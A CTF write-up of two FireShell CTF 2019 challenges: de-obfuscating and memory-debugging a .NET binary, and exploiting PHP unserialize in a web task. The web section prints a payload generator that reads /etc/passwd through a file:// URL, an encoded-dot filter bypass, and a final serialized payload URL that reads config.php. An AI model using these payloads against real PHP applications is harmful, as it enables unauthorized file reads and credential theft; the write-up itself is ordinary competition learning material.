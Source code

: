 # FireShell CTF 2019

## RE - BlackBox Cypher

Task :

![](.gitbook/assets/image%20%28188%29.png)

It's .Net file so we put it in dnspy

![](.gitbook/assets/image%20%28203%29.png)

Oops...obfuscated, try to clean it with de4dot

![](.gitbook/assets/image%20%28155%29.png)

Better, but still fucking so heavy. It's quite easy to know that the file work/obfuscated like this :

It created 100+ junk class, each have few function \(2-6 func\) and call to each other

Sounds pain in the ass, right?

Also, the challenge name is "Blackbox Cipher", so i assume that i dont even need to understand the algorithm behind it.

So i trying to run the binary, dump it and search for string in memory.

But where to stop to dump? Well, there is no other way around, you must debug the application to see where it generate the crypted flag.

![](.gitbook/assets/image%20%28235%29.png)

As you can see, after navigate through the code for a while, i realize the result is my encoded flag, where it's only assigned at

```text
result = Class9.smethod_1(null, type).vmethod_3(this.method_149()).vmethod_0();
```

Now i know that somehow it calculate encoded flag in those method, which mean it init flag somewhere in that too.

So there is 2 ways to solve this problem at this moment :

1. You keep debugging through these code and search through memory too.
2. You just now dump the memory, base64\("F\#{"\) and search in memory

Both work well,  i checked after ctf end, but when the ctf is running, i choose first one, because :

1. I dont know flag format since i havent read rules page...oops!
2. I am afraid that it will some where delete the flag out of memory before it return the encoded flag or maybe it can split flag into many method, and receive few bytes from each, null it after used immediately

After 15 minutes of pressing F11, i finally got

![](.gitbook/assets/image%20%28243%29.png)

Base64 decode it, we got flag

```text
F#{It's_all_about_memory_forensics}
```



## Web - Vice

Task :

```php
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}
if(isset($_GET["gg"])) {
    @unserialize($_GET["gg"]);
} else {
    highlight_file(__FILE__);
}
```

I was trying to solve Boring Check, but then our team rank is down quickly to 3rd, and we must solve one more chall to keep our rank, compete with @bi0s for 3rd place. Time to call help from home.

![](.gitbook/assets/image%20%2847%29.png)

From @Thach works, we finally can craft the payload and read file base on php unserialize bug



```php
//Credit : Thach Nguyen Hoang
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    echo $this->host;
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          echo $ext;
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      /* echo $result; */
    }else{
      die(":)");
    }
  }
  
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}


$o = new SHITS('doit', 'file:///etc/passwd');
echo urlencode(serialize($o));
```

What next? Where is flag?

```text
//require_once 'config.php';
```

There is commented line on challenge source. But it have '.' inside file name, which is filtered. So to bypass strpos\(\), we use urlencode, and guess the path to config.php, which is :

```text
/var/www/html/config%2ephp
```

Final payload

```text
view-source:http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D
```

Flag

```text
F#{wtf_5trp0s_}
```



## Last words

We end up at 3rd place. Time to practice more...

![](.gitbook/assets/image%20%28193%29.png)

